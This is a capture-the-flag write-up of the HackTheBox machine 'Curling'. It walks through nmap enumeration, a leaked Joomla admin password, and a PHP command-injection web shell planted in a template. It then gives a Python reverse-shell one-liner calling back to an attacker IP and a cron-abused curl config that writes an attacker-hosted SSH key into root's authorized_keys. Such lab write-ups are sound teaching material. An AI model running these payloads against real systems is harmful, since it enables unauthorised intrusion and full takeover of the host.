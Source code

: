 ```yaml
---
title: "HackTheBox - Curling"
author: Nasrallah
description: ""
date: 2023-02-21 00:00:00 +0000
categories : [HackTheBox, Machines]
tags: [hackthebox, linux, easy, cronjob, curl]
img_path: /assets/img/hackthebox/machines/curling
---
```


<div align="center"> <script src="https://www.hackthebox.eu/badge/565048"></script> </div>

---


## **Description**

Hello hackers, I hope you are doing well. We are doing [Curling](https://app.hackthebox.com/machines/) from [HackTheBox](https://www.hackthebox.com).

## **Enumeration**

### nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.


```terminal
Nmap scan report for 10.10.10.150
Host is up (0.33s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8ad169b490203ea7b65401eb68303aca (RSA)
|   256 9f0bc2b20bad8fa14e0bf63379effb43 (ECDSA)
|_  256 c12a3544300c5b566a3fa5cc6466d9a9 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Home
|_http-generator: Joomla! - Open Source Content Management
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Two open ports, 22 running OpenSSH and 80 is Apache web server with Joomla CMS.

### Web

Let's navigate to the web page.

![](1.png)

We find a website about curling.

Going the first post, we see it's written by `Floris`, an checking the source code of the page we find something interesting.

![](2.png)

The secret file has a base64 encoded password.

## **Foothold**

Using the username Floris and the password we found, we can login to the administrator page of Joomla.

According to [hacktricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/joomla#RCE), we can get an rce by injecting `system ($_GET['cmd']);` to a file of one of the templates.

![](3.png)

Let's do just that.

![](4.png)

Now to run `id` for example, we got to `http://10.10.10.150/templates/protostar/error.php/error.php?cmd=id`

![](5.png)

Great! We got command execution, now let's get a reverse shell by running the following one liner.

```bash
export RHOST="10.10.10.10";export RPORT=9001;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")''
```

![](6.png)

## **Privilege Escalation**

### floris

Checking file inside floris's home directory, we find a file called password_backup with hexdump data.

![](7.png)

Using [CyberChef](https://gchq.github.io/CyberChef/), we find that file file is compressed multiple times using `gz, bz2 ,tar`, but we manage to get the password file.

![](8.png)

Let's ssh to floris.

![](9.png)

### root

Checking the admin-area directory, we see two files that are being updated every minute.

![](10.png)

I checked if there is any cronjobs but didn't find anything, so i uploaded `pspy64` and managed to find the following.

![](11.png)

There is a cronjob running two commands, the first command is `curl` with `-K` option using `input` file and saving the output to `ouput`.

According to curl's man page, -K specifies a config file where the file has command line arguments.

![](12.png)

Checking the input file, we see it has the url setup to `127.0.0.1`.

Here comes the second cron job where it reset the content of input after the first cronjob is executed.

We can modify the input file to request our own web server where we'll be hosting an id_rsa.pub file and then save it the /root/.ssh/authorized_keys.

```bash
url = http://10.10.17.90/id_rsa.pub
output = /root/.ssh/authorized_keys
```

![](14.png)

We wait a little bit for the cronjob to run and we can ssh to root without a password.

![](13.png)


---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).
